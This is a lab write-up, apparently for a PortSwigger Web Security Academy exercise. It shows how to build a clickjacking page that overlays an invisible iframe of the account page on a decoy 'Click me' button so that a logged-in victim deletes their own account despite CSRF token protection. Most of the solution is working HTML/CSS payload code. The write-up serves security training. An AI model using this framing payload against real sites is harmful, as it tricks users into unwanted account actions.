





# Lab description
Basic clickjacking lab to demonstrate that clickjacking attacks bypass CSRF token protection.

Official lab description:
> This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.
> To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.
> You can log in to your own account using the following credentials: `wiener:peter`

# Writeup
Okay, we have to just craft a HTML response of a page that has a button that says "click" and that button has an invisible iframe on top. Let's use the example CSS given in the lab solution, as crafting this would be a lot of time and effort.
This is the example HTML:
```css
<style>
    iframe {
        position:relative;
        width:$MODIFY$;
        height: $MODIFY$;
        opacity: $MODIFY$;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$MODIFY$;
        left:$MODIFY$;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https:/$YOUR_URL$/my-account/delete"></iframe>
```

Let's modify it with the recommended heights for the iframe and div, and put an opacity to make adjustments (**when the attack is crafted, we will put it to an invisible value, but first we have to craft the attack)**, and fulfill the URL with our deletion URL. We know we can't perform a CSRF attack, as there is a CSRF token:

Do not send this request, this was just to see that the CSRF token is there. What is important is to have the session up, as we need to be logged in so the iframe captures our cookies and goes to the user deletion panel, mimicking the session of our victim.

We have to change the URL of the invisible iframe so it goes to that endpoint. Let's modify the HTML code of the iframe:
```css
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300;
        left:60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a1c001304c8e8c481b3a7bd009c0016.web-security-academy.net/my-account/delete"></iframe>
```

We have to check whether both things appear in the same position, so I turned the opacity a bit higher to see both elements:


They are displaced. They need to match, so let's change the height of the visible button:


The final HTML code is the following, with the height changed and with a valid opacity:
```css
<style>
    iframe {
        position:relative;
        width:1000;
        height: 600;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515;
        left:60;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae700810398ec80862e951d00c4004d.web-security-academy.net/my-account"></iframe>
```

The victim will see this page, which seems a normal page:


But remember that Burp Suite page **is behind.**

Sending this exploit to the victim leads us to the lab completion:
